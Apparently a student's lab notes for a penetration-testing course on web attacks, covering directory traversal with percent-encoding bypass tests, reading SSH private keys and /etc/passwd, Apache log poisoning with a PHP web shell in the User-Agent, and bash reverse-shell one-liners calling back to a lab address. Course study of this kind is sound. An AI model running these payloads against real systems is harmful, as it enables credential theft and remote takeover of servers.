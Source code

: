 # 9. Common Web Application Attacks
no notes

## 9.1. Directory Traversal

### 9.1.1. Absolute vs Relative Paths
Directory Traversal can be done using either Absolute OR Relative paths depending on the vulnerability

### 9.1.2. Identifying and Exploiting Directory Traversals

Linux webroot is often times /var/www/html/

PHP uses $_GET2 to manage variables via a GET request

Directory traversal vulnerabilities are mostly used for gathering information. As mentioned before, if we can access certain files containing sensitive information, like passwords or keys, it may lead to system access.

SSH keys are usually located in the home directory of a user in the .ssh folder -- example of directory traversal to get SSH keys
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

Avoid using browser to read information. use burp or curl, like so
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

Save SSH key into filecalled dt_key, adjust permissions (failing to change permissions will cause unprotected keyfile error)
chmod 400 dt_key
ssh -i dt_key -p 2222 offsec@mountaindesserts.com

Windows /etc/hosts is C:\Windows\System32\drivers\etc\hosts (we use this file because its readable by all local users)

Linux systems, a standard vector for directory traversal is to list the users of the system by displaying the contents of /etc/passwd, check for private keys in their home directory, and use them to access the system via SSH
In Windows there is really no way to do this...

Windows IIS webserver logs are at C:\inetpub\logs\LogFiles\W3SVC1\

For windows targets try both forward and backslashes...

Lab Notes
If you do not chmod the ssh key not only will it fail, but it will also ask for password

### 9.1.3. Encoding Special Characters

curl http://192.168.50.16/cgi-bin/../../../../etc/passwd

url encode (aka percent encode) curl for ../ traversal attack
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
NOTE: 2e hexidecimal is 46. 46 in ascii is a DOT or period ".". no need to encode slashes as those are naturally part of URLS

Lab notes: Q1 had us look for the flag in /opt/passwords... is the /opt folder supposed to be something we check? Is there a way that we can automate directory traversal to locate low hanging fruit?
This reddit has a couple of good answers on some files to check.. one mentioned loading Seclists/fuzzing/LFI into burp intruder as a way to automate -- https://www.reddit.com/r/oscp/comments/1ae050m/path_traversal/

WORKING PAYLOAD -- NOTE: REPLACING curl from any payloads that failed with the word FAILED so that they do not populate in a search!
curl --path-as-is http://192.168.162.16:3000/public/plugins/alertlist/../../../../../../../../etc/passwd

CASE: only encoding the dots in between /'s -- passed
curl --path-as-is http://192.168.162.16:3000/public/plugins/alertlist/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

CASE: Everything is encoded -- failed
failed %68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%36%32%2e%31%36%3a%33%30%30%30%2f%70%75%62%6c%69%63%2f%70%6c%75%67%69%6e%73%2f%61%6c%65%72%74%6c%69%73%74%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64

CASE: everything between alertlist/ and /etc/passwd is encoded -- pass
curl http://192.168.162.16:3000/public/plugins/alertlist/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd

CASE: Slash after alertlist is encoded -- fail
failed http://192.168.162.16:3000/public/plugins/alertlist%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e/etc/passwd

CASE: slash in /etc/passwords are replaced -- pass
curl http://192.168.162.16:3000/public/plugins/alertlist/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2Fpasswd

CASE: encoding the word public in the uri -- pass
curl http://192.168.162.16:3000/%70%75%62%6c%69%63/plugins/alertlist/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2Fpasswd

CASE: Encoding the slashes in front and behind plugins -- fail
failed http://192.168.162.16:3000/%70%75%62%6c%69%63%2fplugins%2falertlist/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2Fpasswd

Conclusion: I have to be careful which slashes I encode.... I can encode any slashes after the first one in alertslist/ and I can encode any word in between slashes after the hostname:port. 
However encoding slashes in the regular url will break the request.... Is this observation specific to Grafana or with any directory traversal?

Something else I noticed is that non-encoded payloads need the --path-as-is argument. Encoded payloads work the same with or without the argument

## 9.2. File Inclusion Vulnerabilities
no notes

### 9.2.1. Local File Inclusion (LFI)
directory traversal -- obtain the contents of a file outside of the web server's web root -- read files
file inclusion -- include a file in the application's running code. -- execute local or remote files, also display content of non-executable file
Log Poisoning --  modifying data sent to a webapp so that the logs have executable code

Apache Access.log File Inclusion
access.log is in /var/log/apache2/

curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log
They noticed that the log has an entry of a User Agent which is a user controlled header

User-Agent payload in burp:
<?php echo system($_GET['cmd']); ?>
$_Get -- super global variable which lets you pull the contents of "cmd" from /index.php?page=admin.php&cmd=whoami
echos the results of system(stuff)

GET /meteor/index.php?page=../../../../../../../var/log/apache2/access.log&cmd=ls%20-la 
%20 -- encoding of white space in command
Previously we uploaded <?php echo system($_GET['cmd']); ?> to the log. Doing a directory traversal to that file executes the php code in the file which grabs the cmd parameter.
the cmd parameter has ls -la with the space inbetween url encoded

bash one-liner for reverse shell
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

php uses bourne for shell instead of bash... will need to use the following one-liner instead
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

php bash one-liner with encoding
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22

start a netcat listener 
nc -nvlp 4444

XAMPP apache logs are stored at C:\xampp\apache\logs\access.log

We can also do LFI in Pearl, ASP, ASPE, JSP or even Node.js

Lab notes
sometimes sudo -I will give you root if the account has the correct permissions

### 9.2.2. PHP Wrappers

<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>><><
<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>><><
<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>><><
<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>><><
Extra Reading   
<><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><><>><><
9.2.2. PHP Wrappers


9.2.1. Local File Inclusion (LFI)
https://owasp.org/www-community/attacks/Log_Injection
https://httpd.apache.org/docs/2.4/logs.html
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent
https://www.php.net/manual/en/function.system.php
https://www.php.net/manual/en/function.echo.php
https://en.wikipedia.org/wiki/Input_Field_Separators
https://www.w3schools.com/tags/ref_urlencode.asp
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp
https://en.wikipedia.org/wiki/Bourne_shell
https://www.apachefriends.org/index.html
https://www.perl.org/
https://en.wikipedia.org/wiki/ASP.NET
https://en.wikipedia.org/wiki/Active_Server_Pages
https://en.wikipedia.org/wiki/Jakarta_Server_Pages
https://nodejs.org/en/


9.2. File Inclusion Vulnerabilities
https://en.wikipedia.org/wiki/File_inclusion_vulnerability
https://www.php.net/manual/en/wrappers.php

9.1.3. Encoding Special Characters
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773
https://en.wikipedia.org/wiki/Web_application_firewall
https://en.wikipedia.org/wiki/Percent-encoding
https://www.w3schools.com/tags/ref_urlencode.asp


9.1.2. Identifying and Exploiting Directory Traversals
https://en.wikipedia.org/wiki/Directory_traversal_attack
https://www.php.net/manual/en/reserved.variables.get.php
https://portswigger.net/burp
https://curl.se/
https://en.wikipedia.org/wiki/Internet_Information_Services
https://docs.microsoft.com/en-us/iis/manage/provisioning-and-managing-iis/managing-iis-log-file-storage
https://www.ietf.org/rfc/rfc1738.txt
